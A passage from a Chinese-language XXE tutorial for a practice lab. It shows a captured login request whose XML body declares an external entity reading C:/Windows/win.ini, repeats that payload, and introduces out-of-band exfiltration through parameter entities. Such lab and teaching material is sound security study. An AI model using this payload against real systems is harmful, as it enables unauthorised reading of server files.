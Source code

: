 

```xml
POST /doLogin.php HTTP/1.1
Host: 192.168.70.10:8093
Content-Length: 138
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.70.10:8093
Referer: http://192.168.70.10:8093/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: BEEFHOOK=MByrcr5Ki6e1SP1dgaxaDS80bEuVKn2z5CzQMl7iHG0YDHOQKfQoGjhYc0MKB5W9Er41hmBSlxZt57Td
Connection: keep-alive

<!DOCTYPE test[
<!ENTITY test SYSTEM "file:///C:/Windows/win.ini">]>
<user><username>&test;</username><password>123456</password></user>
```



```xml
<!DOCTYPE test[
<!ENTITY test SYSTEM "file:///C:/Windows/win.ini">]>
<user><username>&test;</username><password>123456</password></user>
```

##### 结果

![image-20240902162431739](https://image.201068.xyz/assets/27.XXE/image-20240902162431739.png)

### XXE盲注

在许多情况下，攻击者可以将 XXE payload发送到 Web 应用程序，但永远**不会返回响应**，这被称为**带外**漏洞(Out-of-band)

利用此类漏洞的过程需要利用**参数实体**，使攻击者让 XML解析器向攻击者控制的服务器发出额外的请求，以便读取文件的内容。

攻击者要如何利用`OoB`(带外)技术配合参数实体窃取数据?

### XXE练习靶场

#### 靶场环境

xxe lab靶场 **修改文件**`DoLogin.php`,注释`echo $result;`

![image-20240902162716370](https://image.201068.xyz/assets/27.XXE/image-20240902162716370.png)

![image-20240902162944928](https://image.201068.xyz/assets/27.XXE/image-20240902162944928.png)

![image-20240902163244645](https://image.201068.xyz/assets/27.XXE/image-20240902163244645.png)
